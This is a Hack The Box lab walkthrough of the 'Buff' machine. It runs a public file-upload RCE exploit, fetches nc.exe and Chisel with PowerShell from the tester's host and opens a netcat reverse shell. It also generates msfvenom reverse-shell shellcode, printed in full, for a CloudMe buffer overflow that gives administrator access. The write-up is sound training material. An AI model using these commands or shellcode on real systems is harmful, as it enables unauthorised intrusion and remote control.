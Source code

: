 # HTB - Buff

#### Ip: 10.10.10.198
#### Name: Buff
#### Rating: Easy

----------------------------------------------------------------------

![Buff.png](../assets/buff_assets/Buff.png)

### Enumeration

I'll kick off enumerating this box by scanning all TCP ports with Nmap:

```text
┌──(ryan㉿kali)-[~/HTB/Buff]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.198 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-01 16:16 CDT
Nmap scan report for 10.10.10.198
Host is up (0.072s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE
7680/tcp open  pando-pub
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 13.42 seconds
```

Looks like just 2 open ports. Lets look a bit more closely at these using the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Buff]
└─$ sudo nmap -sC -sV -T4 10.10.10.198 -p 7680,8080
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-01 16:18 CDT
Nmap scan report for 10.10.10.198
Host is up (0.064s latency).

PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-title: mrb3n's Bro Hut
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.49 seconds
```

Navigating to the site, we find what appears to be a gym website. I poked around not seeing too much of interest, until I found the Contact page. Looking here I find some more info about the software being used:

![software.png](../assets/buff_assets/software.png)

Not being familiar with this software, first thing I do is look it up using Searchsploit to see if there are any vulnerabilities/ exploits to be found.

![searchsploit.png](../assets/buff_assets/searchsploit.png)

Nice! I'm especially interested in the unauthenticated RCE exploit. You can either download it directly from searchsploit, or go out and grab it from ExploitDB (https://www.exploit-db.com/exploits/48506) Looking at the exploit, the comments state "Gym Management System version 1.0 suffers from an Unauthenticated File Upload Vulnerability allowing Remote Attackers to gain Remote Code Execution (RCE) on the Hosting Webserver via uploading a maliciously crafted PHP file that bypasses the image upload filters."

Interesting. Looking through the Python code, this should be good to just point and fire, with no changes needed.

### Exploitation


I execute the exploit at the target using:

`python2 gym-mgmt-system-rce.py http://10.10.10.198:8080/` 

(I'm using Python2, because this is an old script and I didn't want to have to go through and clean up all the print statements, after the transition to Python3)

The foothold was a breeze. After firing the script I'm presented with a web-shell, where I can grab user.txt.

![user_flag.png](../assets/buff_assets/user_flag.png)

### Privilege Escalation

This web-shell is not the best to work out of, so I'm going to create a reverse shell from the web-shell back to my machine, so I can enumerate more comfortably.

To do this I'll need to transfer a netcat executable to the target machine. First I'll set up a python webserver and on the target box fetch netcat with 

```text
powershell -c iwr http://10.10.14.28/nc.exe -outfile nc.exe"
```

Now that we have netcat on the target we can easily get a stable reverse shell by issuing:

```text
nc.exe 10.10.14.28 1234 -e cmd.exe
```

Great, now we have a stable, fully interactive shell to work with. 

![stable_shell.png](../assets/buff_assets/stable_shell.png)

Browsing around the machine, I find and interesting executable in Shaun's Downloads folder:

![find_cloudme.png](../assets/buff_assets/find_cloudme.png)

It also looks like the version number is being listed as well. Turning to ExploitDB to see if I can find any public exploits, I quickly find this one: https://www.exploit-db.com/exploits/48389. This is a Python script, which should be pretty straightforward to execute. 

But there is one small hurdle we'll have to get through first. Because this is exploit is written in python, and python is not normally installed on Windows machines, we'll need to use a tool like Chisel to tunnel from my machine to the victim.

So, lets get the exploit cleaned up and ready to execute and then transfer over Chisel to set up a tunnel.

### Modifying The Exploit

This is a pretty straight forward buffer overflow exploit which will only need  light updating. Looking at the code it looks like the shellcode provided opens up calc.exe, but we want something a bit more useful than that. So what we need to do is utilize msfvenom to create some new shell code that contains a reverse shell back to our box. We can do that as follows:

```text
┌──(ryan㉿kali)-[~/HTB/Buff]
└─$ msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.28 LPORT=4321 -b '\x00\x0A\x0D' -f python -v payload
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1899 bytes
payload =  b""
payload += b"\xdb\xc8\xd9\x74\x24\xf4\xbd\xbd\xdb\x9d\x98"
payload += b"\x5a\x29\xc9\xb1\x52\x83\xea\xfc\x31\x6a\x13"
payload += b"\x03\xd7\xc8\x7f\x6d\xdb\x07\xfd\x8e\x23\xd8"
payload += b"\x62\x06\xc6\xe9\xa2\x7c\x83\x5a\x13\xf6\xc1"
payload += b"\x56\xd8\x5a\xf1\xed\xac\x72\xf6\x46\x1a\xa5"
payload += b"\x39\x56\x37\x95\x58\xd4\x4a\xca\xba\xe5\x84"
payload += b"\x1f\xbb\x22\xf8\xd2\xe9\xfb\x76\x40\x1d\x8f"
payload += b"\xc3\x59\x96\xc3\xc2\xd9\x4b\x93\xe5\xc8\xda"
payload += b"\xaf\xbf\xca\xdd\x7c\xb4\x42\xc5\x61\xf1\x1d"
payload += b"\x7e\x51\x8d\x9f\x56\xab\x6e\x33\x97\x03\x9d"
payload += b"\x4d\xd0\xa4\x7e\x38\x28\xd7\x03\x3b\xef\xa5"
payload += b"\xdf\xce\xeb\x0e\xab\x69\xd7\xaf\x78\xef\x9c"
payload += b"\xbc\x35\x7b\xfa\xa0\xc8\xa8\x71\xdc\x41\x4f"
payload += b"\x55\x54\x11\x74\x71\x3c\xc1\x15\x20\x98\xa4"
payload += b"\x2a\x32\x43\x18\x8f\x39\x6e\x4d\xa2\x60\xe7"
payload += b"\xa2\x8f\x9a\xf7\xac\x98\xe9\xc5\x73\x33\x65"
payload += b"\x66\xfb\x9d\x72\x89\xd6\x5a\xec\x74\xd9\x9a"
payload += b"\x25\xb3\x8d\xca\x5d\x12\xae\x80\x9d\x9b\x7b"
payload += b"\x06\xcd\x33\xd4\xe7\xbd\xf3\x84\x8f\xd7\xfb"
payload += b"\xfb\xb0\xd8\xd1\x93\x5b\x23\xb2\x91\x91\x25"
payload += b"\x5e\xce\xa7\x39\x4e\xef\x21\xdf\x04\xff\x67"
payload += b"\x48\xb1\x66\x22\x02\x20\x66\xf8\x6f\x62\xec"
payload += b"\x0f\x90\x2d\x05\x65\x82\xda\xe5\x30\xf8\x4d"
payload += b"\xf9\xee\x94\x12\x68\x75\x64\x5c\x91\x22\x33"
payload += b"\x09\x67\x3b\xd1\xa7\xde\x95\xc7\x35\x86\xde"
payload += b"\x43\xe2\x7b\xe0\x4a\x67\xc7\xc6\x5c\xb1\xc8"
payload += b"\x42\x08\x6d\x9f\x1c\xe6\xcb\x49\xef\x50\x82"
payload += b"\x26\xb9\x34\x53\x05\x7a\x42\x5c\x40\x0c\xaa"
payload += b"\xed\x3d\x49\xd5\xc2\xa9\x5d\xae\x3e\x4a\xa1"
payload += b"\x65\xfb\x7a\xe8\x27\xaa\x12\xb5\xb2\xee\x7e"
payload += b"\x46\x69\x2c\x87\xc5\x9b\xcd\x7c\xd5\xee\xc8"
payload += b"\x39\x51\x03\xa1\x52\x34\x23\x16\x52\x1d"
```

With:
`-a` for the architecture
`-p` for the payload
`-b` for the bad-characters (we didn't need to fuzz these ourselves, just use what's in the exploit)
`-f` for the format
`-v` for the variable

After updating the shellcode in the exploit, that should be it for updating the script.

Next, lets use Chisel to set up a tunnel between our machine and the target:

### Chisel

Chisel is my favorite tool for situations like this, because it can be used on both Windows and Linux machines, doesn't require SSH access, and is incredibly straight forward.

First things first I need to copy Chisel over to the Buff machine. To do this I'll use the same PowerShell one-liner I used to transfer over netcat:

```text
powershell -c iwr http://10.10.14.28/chisel_1.8.1_windows_amd64 -outfile chisel.exe"
```

After that I'll start up chisel on my box:

```text
┌──(ryan㉿kali)-[~/Tools/pivoting]
└─$ ./chisel_1.8.1_linux_arm64 server -p 8000 --reverse
2023/05/02 15:29:04 server: Reverse tunnelling enabled
2023/05/02 15:29:04 server: Fingerprint 309WBxmCGAhbAagxYAXEhj/f1HJY4GMGfA5zduVlXEk=
2023/05/02 15:29:04 server: Listening on http://0.0.0.0:8000
```

And finally I'll connect back to my server from Buff:

```text
.chisel.exe client 10.10.14.28:8000 R:8888:localhost:8888
```

Cool, we should now have a tunnel to use now. Let's fire off the exploit and grab root.txt:

```text
python cloudme-1112-bof.py
```

and check our netcat listener for a reverse shell as administrator:

![root_flag.txt](../assets/buff_assets/root_flag.png)

Nice!

This was a great easy level box, with a simple foothold and privilege escalation, but gave users the ability to practice tunneling, which makes it more unique and fun. 

Thanks for following along!

-Ryan

-----------------------------------------------------------------------
